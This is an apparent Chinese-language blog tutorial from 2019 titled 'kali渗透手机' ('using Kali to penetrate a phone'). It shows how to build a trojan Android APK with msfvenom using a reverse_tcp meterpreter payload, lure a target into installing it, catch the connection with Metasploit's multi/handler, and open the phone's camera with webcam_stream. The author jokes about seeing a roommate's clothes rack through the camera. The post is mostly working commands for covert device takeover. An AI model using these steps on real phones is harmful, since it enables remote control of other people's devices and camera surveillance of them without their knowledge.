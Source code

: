 ```yaml
---
layout:     post
title:      kali渗透手机
subtitle:   写着玩的
date:       2019-05-18
author:     Nikola
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - kali
    - 渗透
    
    
---
```


**写个小白教程**

**原理：**

利用Metasploit生成xxx.apk的木马文件，让目标手机下载这个木马程序，然后这个木马就会反弹连接你的kali,你就可以控制手机了。

**开始：**



便与测试，我这里kali和手机是同一个网段，就是连得同一个wifi。

1.kali的ip: 192.168.31.65，

2.一会我会让目标的手机反连我kali的9999端口号，记住端口号不能冲突。

3.打开终端输入

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.31.65 LPORT=9999 R > /root/qiaozhu.apk
```

![img](https://i.loli.net/2018/12/27/5c24a4cf595e8.png)

然后ls查看，生成如下文件

![img](https://i.loli.net/2018/12/27/5c24a4cf07164.png)

打开metasploit



![img](https://i.loli.net/2018/12/27/5c24a4d03421a.png)

进入msf之后，首先使用search命令找到exploit/multi/handler模块，如下





![img](https://i.loli.net/2018/12/27/5c24a4cf4bd5d.png)

```
use exploit/multi/handler //加载模块
show options //加载完模块，看看有哪些选项
```

![img](https://i.loli.net/2018/12/27/5c24a4d034c99.png)

选择android/meterpreter/reverse_tcp这个载荷选项

```
set payload android/meterpreter/reverse_tcp
```

set LHOST 192.168.31.65 //设置我的ip

set LPORT 9999 //设置我的端口9999

![img](https://i.loli.net/2018/12/27/5c24a4d013160.png)

然后就开始侦听了，一旦我这边手机安装qiaozhu.apk运行之后，我kali这边就会

![img](https://i.loli.net/2018/12/27/5c24a4d018726.png)

看见没有，激动不激动，出现meterpreter 说明成功了
输入webcam_stream ，开启摄像头

![img](https://i.loli.net/2018/12/27/5c24a4d1445d4.png)

看到舍友的衣架子了。。拜拜

![img](http://blog3-1258612035.cos.ap-shanghai.myqcloud.com/20190311151109/20190311035128908.png)